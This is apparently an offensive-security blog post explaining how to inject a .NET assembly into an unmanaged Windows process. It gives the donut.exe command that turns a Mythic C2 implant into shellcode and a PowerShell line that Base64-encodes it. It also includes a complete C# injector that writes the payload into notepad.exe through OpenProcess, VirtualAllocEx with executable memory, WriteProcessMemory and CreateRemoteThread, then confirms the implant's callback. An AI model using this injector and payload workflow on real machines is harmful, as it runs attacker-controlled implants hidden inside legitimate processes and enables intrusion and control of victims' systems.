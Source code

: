 ```yaml
---
title: "Injecting dotNet Assemblies to Unmanaged Processes"
author: Felipe Gaspar
---
```

This is a quick post to show how you can inject your .NET assembly code to unmanaged processes.

### Generate the ShellCode

As an example, I will be using a Mythic implant. But feel free to develop your own payload.

For this task we will use the Donut project, you can read more about it [here.](https://github.com/TheWover/donut)

The syntax is very simple, we need to indicate our payload (-f), the Class preceded by the Namespace (c) and the method to be executed (m). You can specify the system architecture (-a), with 1 for x86 and 2 for amd64:

```powershell
.\donut.exe -f .\atlas_callback.exe -c Atlas.Program -m Main -a 2
```
![](/images/2021-02-10-10-20-35.png)

If all goes well, the file "payload.bin" will be created in the local folder of the project.

![](/images/2021-02-10-10-23-41.png)

This file can already be used in the injection process, but let's do it differently. We will convert the file to Base64 and place it within our code, so we don't need to reference a file inside our final code.

```powershell
[Convert]::ToBase64String([IO.file]::ReadAllBytes((get-location).path + "\payload.bin")) | out-file payload.b64
```
![](/images/2021-02-10-10-29-18.png)
### Process Injection

The code below is a basic implementation of process injection, using _VirtualAllocEx_, _WriteProcessMemory_ and _CreateRemoteThread_. I added a few lines to receive our payload in the necessary format and that's it.

Replace your Base64 payload in the code below and remember to start the chosen process as a target.

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.IO;
using System.Diagnostics;

namespace Injection {
    class Program {
    
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        public static void Main(string[] args) {

            string s = @"<B64PAYLOAD>";
            byte[] buf = Convert.FromBase64String(s);
            
            Process[] npProc = Process.GetProcessesByName("notepad");
            int pid = npProc[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)buf.Length, 0x00002000 | 0x00001000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        }
    }
}
```
### Conclusion

That's it! Your code will be executed within the target process.

In my case, I can confirm by looking at the callback in Mythic and crossing with the PID of the target process (notepad.exe):

![](/images/2021-02-10-10-45-49.png)
![](/images/2021-02-10-10-42-09.png)

Happy Hacking!
